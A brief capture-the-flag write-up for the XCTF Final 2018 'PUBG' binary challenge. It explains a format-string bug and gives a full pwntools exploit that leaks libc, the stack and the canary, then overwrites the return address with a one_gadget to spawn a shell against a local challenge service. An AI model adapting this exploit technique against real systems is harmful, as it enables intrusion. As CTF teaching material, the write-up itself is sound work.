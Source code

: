 ```yaml
---
title: 'XCTF-final-2018:PUBG'
date: 2018-11-08 11:42:26
tags:
layout: default
---
```

Interesting game
<!--more-->
# File
[PUBG][1]
# PUBG
* PICK A GUN first
* AND you have two choise : gang or gou
* gou :
    you may find AWM
* gang :
    if you dont have AWM you will die
* IF you win you can leak something and you can overflow to control the RIP
* so enjoy the game
# Entry point
*  you can leak libc by 
```python
  for ( j = 0; j <= 3; ++j )
  {
    if ( s[j] != buf[j] )
    {
      printf(s);#formatstr
      puts(" has no airdrop");
      return __readfsqword(0x28u) ^ v4;
    }
  }
```
* Luckily you can leak j .so you can burp the position of airdrop
* so you will get the AWM
* and use the only chance to leak  canary
* so go to control EIP

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil("> ")
	p.sendline(str(c))
def airdrop(c):
	cmd(2)
	p.readuntil("position:")
	p.send(c)

#context.log_level="debug"
p=process("./pubg")
p=remote("127.0.0.1",1025)
cmd(1)
cmd(1)
airdrop("%p%p%p%p\n")
p.readuntil("0x25")
base=int(p.readline(),16)-0x5cd700+0x7fd980588000-0x7fd98058d000
log.warning("Libc:%s",hex(base))
airdrop("%a%a%a%a%a")
p.readuntil("ap-10220x0.0")
stack=int("0x"+p.read(11)+"0",16)
log.info("stack:%s",hex(stack))


res=""
for x in range(3):
	for y in range(1,256):
		if (chr(y)!='n' and chr(y)!='$' and chr(y)!='*' and chr(y)!='|'):

			airdrop(res+"{}%p|%p\n".format(chr(y).ljust(3-x,'\x01')))
			p.readuntil("|")
			data=p.readline()
			if data=="(nil)\n":
				data=0
			else :
				data=int(data,16)
			if (data==x+1):
				res+=chr(y)
				break
			else:
				continue
airdrop(res)
cmd(1)
p.readuntil("chicken:\n")
canary_add=(0x7ffe2c5822c8-0x7ffe2c5823d0)+stack

p.sendline(str(canary_add+1))
sleep(0.1)
p.readuntil("The ")
data="\x00"+p.read(7)
canary=u64(data.ljust(8,'\x00'))
log.info("Cnary:%s",hex(canary))
p.readuntil("~\n")
off=0x20
one=base+0x45216
p.send("\x00"*off+p64(canary)*3+p64(one)+"\n")
p.interactive()
```

# review 
Is a interesting game
There are lots of little trick in this challenge.


[1]:https://github.com/n132/Watermalon/tree/master/XCTF_FINAL_2018/pubg